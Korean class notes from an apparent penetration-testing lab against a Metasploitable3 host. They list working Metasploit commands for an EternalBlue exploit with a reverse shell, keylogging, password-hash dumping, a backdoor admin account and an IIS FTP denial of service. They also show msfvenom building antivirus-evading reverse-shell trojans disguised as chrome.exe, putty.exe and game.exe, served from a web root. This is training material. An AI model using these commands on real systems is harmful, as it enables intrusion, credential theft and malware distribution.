---

**meta3에서 방화벽을 우선적으로 열어줘야 함**




```bash
msfconsole
search type:exploit ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 10.0.0.31

show targets

#set target 1
#set target 0
run #exploit도 가능
```



	win 이라 뜨면 됨

```bash
screenshot
getpid
ps #spoolsv.exe 찾기, #explorer.exe찾기 --> 얘네 프로세스 아이디찾기

migrate #explorer.exe의pid (2092) --> success뜨면 잘 된거

#키보드 입력값 알아내기
keysacn_start # metas3로 가서 메모장에서 입력해보기
keyscan_dump
hashdump

shell
net user jhjang It1 /add
net user
net localgroup Administrators jhjang /add
exit
backgroud
sessions -i
sessions 1
exit
back
exit #root@kali 로 빠져나옴
```

	explorer.exe 권한만 찾으면 모든 프로세스들의 권한을 가질 수 있다.


**키 덤프 성공**



	explorer.exe의 pid를 migrate해서 key dump 시도한 결과


**계정 생성 및 관리자 권한 주기 성공공**



	meta3에 jhjang 사용자 추가하고 Administrators 권한을 준다.

```bash
search ms11-004
use auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof
show options #rhost인경우도 있고 rhosts인경우도 있어서 확인 꼭 하기
set rhosts 10.0.0.31
run
```


**취약점 점수 9.8인 IIS 서비스의 FTP 서비스 중단 성공**



	취약점 MS11-004를 이용해 진행하였다.



	공격 성공 시 ftp가 중지된걸 알 수 있음 -> 다시 켜려면 services.msc에서 수동 켜기

**피해자가 다시 FTP 서비스를 구동하는 법**





	시작 완료

**w10 도 검사하려면?**



	admin/passwd 를 직접 입력하고 모두 체크 후 진행
	nessus는 취약점 검사 용도로만 사용하므로 침투 용도보다는 점검 용도


```bash
rdesktop -u babo 10.0.0.31
```

	babo 계정 추가하고 원격접속 가능

```bash
ssh vagrant@10.0.0.31
ls

rdesktop -u babo 127.0.0.1:60010
ssh -L 60010:10.0.0.31:3389 vagrant@10.0.0.31
```




**악성코드 만들기**

	악성코드 제작 시 난독화르 잘 해야 사용하는 보안 앱들이 안잡아냄

```bash
msfvenom
```





```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp \
> lhost=10.0.0.41 lport=60020 -f exe -e x64/zutto_dekiru -i 3 -o chrome.exe
```

```
vi /etc/apache2/apache2.conf
vi /etc/apache2/sites-enabled/000-default.conf
vi /etc/apache2/conf-enabled/security.conf 

vi /var/www/html/index.html
```



```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```








```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp \
> lhost=10.0.0.41 lport=60060 -f exe -x putty.exe -e x64/zutto_dekiru -i 3 -o /var/www/html/down/putty.exe
```


```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp \
> lhost=10.10.34.165 lport=61000 -f exe -x putty.exe -e x64/zutto_dekiru -i 3 -o /var/www/html/down/game.exe
```

**접속 차단**



	sysinternal 을 깔고 kill하면 됨


---
**실습**

4팀 161~180
브릿지: 윈도우10, kali
팀원들의 쉘을 뺏을 수 있는지

---
- 포트도 알아두기
	well-known port
	registring port
	dynamic port

- eos, eol 비교 --> 무조건 알아두기
	https://itofk.tistory.com/108

- sysinternal 툴
	윈도우 사용자라면 꼭 알아야함





	위에서 실습한 explorer.exe 권한을 가지면 밑의 자식들의 권한을 다 가져올 수 있다.

- 보고서 양식
	제목 
	이름
	목차
	프로젝트일정표(모의침투 일정에 맞게)
	
	자원할당표
	
	Att&ck 기준으로
